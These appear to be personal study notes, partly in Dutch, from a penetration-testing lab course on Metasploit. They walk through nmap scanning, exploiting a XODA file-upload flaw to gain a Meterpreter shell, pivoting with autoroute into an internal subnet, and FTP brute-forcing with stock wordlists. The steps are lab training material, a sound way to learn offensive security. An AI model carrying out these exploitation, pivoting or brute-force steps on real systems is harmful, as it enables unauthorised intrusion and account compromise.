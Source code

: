 
#### Port scanning & Enumeration with nmap 

- Command: nmap -Pn -sV -O ip
- output scan results into xml file format:  -oX \[name file] windows_server_2012 
- nmap -h to see other commands that can be used for output 

Importing scans into msfconsole  (start msfconsole
- command: service PostgreSQL start 
- check the files - command: db_import /root/ 
- import the file - command: db_import /root/filename
- confirm that it is important - command: hosts 
- print services for hosts that you imported - command: services 
- initiate nmap scan from within msfconsole and save results in database - 
	  - Create new workspace - command: workspace -a nmap_msf 
	  - command: db_nmap -Pn -sV -O ip 
	  - list out the hosts and services 


## Enumeration 


###### Port scanning / pivoting 

Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing. We can use it to perform TCP and UDP port scanning as well as enumerating information from services FTP, SSH, HTTP 
	Auxiliary modules can be used during information gathering phase 
Waarom auxiliary modules gebruiken als je ook met nmap kunt scannen? Auxiliary modules zijn erg handig voor **post exploitation phase:**   wanneer je een target hebt geexploit kom je erachter dat deze target onderdeel is van groot netwerk dan heb je nog meer targets die je kunt exploiten through initial exploited server. De auxiliary modules zijn dan handig om verder het interne/private netwerk te scannen. Dit kan niet met nmap omdat je dan nmap moet importeren op geexploite target host of OS. 

![[Pasted image 20230720154107.png]]


- start the postgresql service so we can interact with metasploit database 
- start msfconsole 
- check the status of the database, command: db_status 
- set up workspace, command: workspace -a Port_scan 
- use the auxiliary tcp portscan 
- from the auxiliary module run  curl to download homepage of web application, command: curl ip 
	- search for exploit modules for xoda webapplication -> xoda_file_upload
		- set up rhosts and set targetui /  
		  (/ because the root of the webserver)
	- exploit will set up a meterpreter session 
	- sysinfo will tell us more about the target system 
	- now we want to do port scan on victim two but first we need to find out the private network ip address (subnet) that this victim system is part of so we can target another victim within the network
		- open up a shell session: span a bash session, command: /bin/bash -i
		  ![[Pasted image 20230721142859.png]]
		- ifconfig 
		- get out of bash: terminate shell 
		- back in meterpreter,  command: run autoroute -s ip
				   "run autoroute -s ip" is used to configure a route to a specific subnet over a Meterpreter session. De "autoroute" module in Metasploit wordt gebruikt om de routetabel van het gecompromitteerde systeem te manipuleren, zodat verkeer dat bestemd is voor een specifiek IP-subnet wordt omgeleid via het gecompromitteerde host. Deze techniek is handig wanneer je verkeer wilt omleiden via het gecompromitteerde systeem om toegang te krijgen tot andere interne netwerken.
		- put the meterpreter session in the background, command: background 
		- search portscan 
		- use the tcp portscan 
		- set rhost to the ip in eth1 (ip of the second system)
			because you already added the route we will run the portscan through the first victim. 
	This is how you get a pivot point 
	UDP module: 
	- back 
	- search udp_sweep 

	---- lab ---   
Commands
- ip addr  -  me: 192.70.225.2 and target: 192.70.225.3 
- sudo service postgresql start  && msfconsole -q
- workspace -a Port_scan_target
- search tcp portscan 
- run aux/scanner/portscan/tcp on target
- use exploit(unix/webapp/xoda_file_upload 
- sets targeturi / 
- sysinfo 
- shell
- /bin/bash -i 
- ifconfig
- exit 
- Add the route to metasploit's routing table, command: run autoroute -s 192.135.243.2 
- background
- search portscan 


### FTP Enumeration

Use: file sharing between server and clients, transferring files to directory or web server. FTP access is via username and password. We can use multiple auxiliary modules to enumerate information as well as brute-force attacks on targets running an FTP server. Improper configurated FTP server can allow anonymous logon.  

Commands enumerating ftp  192.104.50.2

1) FTP portscan and ftp version scan (enumeration)
- service postgresql start 
- start up msfconsole 
- check if target system has ftp server running
	- create workspace, command: workspace -a ftp_enum 
	- search portscan -> use aux/scan/portscan/tcp 
	- when you have to many search results use, command: search type: auxiliary name: ftp 
	- use aux/scanner/ftp/ftp_version (this will give us version of ftp and the ftp banner which is usefull information because we can use it to identify vulnerabilities for that version. e.g. search proftpd)

2) ftp bruteforce 
- search for module: search aux ftp (search for aux/scanner/ftp/ftp_login)
- set the user file and pasword file:
	- User_FILE -> /usr/share/metasploit-framework/data/wordlists/common_users.txt 
	- PASS_FILE ->  /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
- when you have found a password, you can login within  metasploit session, command:  ftp target ip. When you get a service not available error it means that the bruteforce has overwhelmed the service and that there are processes in places for example ddos protection that can make the service unavailable. You have to wait a few minutes. 
- exit the msfconsole
	- command: ftp target 
	- give username and password 
	- ls 
	- get {file}
	- exit 
	- cat {file}
  
3) anonymous login (access remote and anonymously)
   - search type: aux name:ftp   (we are looking for aux/scanner/ftp/anonymous)
   

### SMB Enumeration 




